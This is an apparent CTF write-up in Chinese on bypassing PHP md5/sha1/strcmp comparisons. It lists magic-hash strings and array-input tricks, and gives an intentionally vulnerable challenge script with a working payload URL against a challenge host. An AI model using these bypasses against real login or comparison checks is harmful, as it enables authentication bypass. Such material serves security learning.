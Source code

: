 # PHP MD5 SHA1 比较 漏洞绕过



+ md5()无法处理数组，如果传入为数组则返回为NULL

  ```
  以下例子MD5值是0e开头
  
  　　QNKCDZO
  
  　　240610708
  
  　　s878926199a
  
  　　s155964671a
  
  　　s214587387a
  　strcmp函数无法比较数组，可以使用数组绕过。
  ```

+ 字符经MD5加密后为0exxxxx形式会被认为是科学计数法表示0*10的xxxx次方，值为零所以相等

+ sha1比较数组漏洞

```
sha1($_GET['uname']) === sha1($_GET['passwd']

sha1比较数组漏洞： uname[]=1&passwd[]=23 即可绕过 (注:数组数字可任意)
```



## 题目

```php
<?php
highlight_file('flag.php');
$_GET['id'] = urldecode($_GET['id']);
$flag = 'flag{xxxxxxxxxxxxxxxxxx}';
if (isset($_GET['uname']) and isset($_POST['passwd'])) {
    if ($_GET['uname'] == $_POST['passwd'])
        print 'passwd can not be uname.';
    else if (sha1($_GET['uname']) === sha1($_POST['passwd'])&($_GET['id']=='margin'))
        die('Flag: '.$flag);
    else
        print 'sorry!';
}?>
```

## playload

```
http://114.67.246.176:17347/?id=margin&uname[]=1
Post data -> passwd[]=23
```

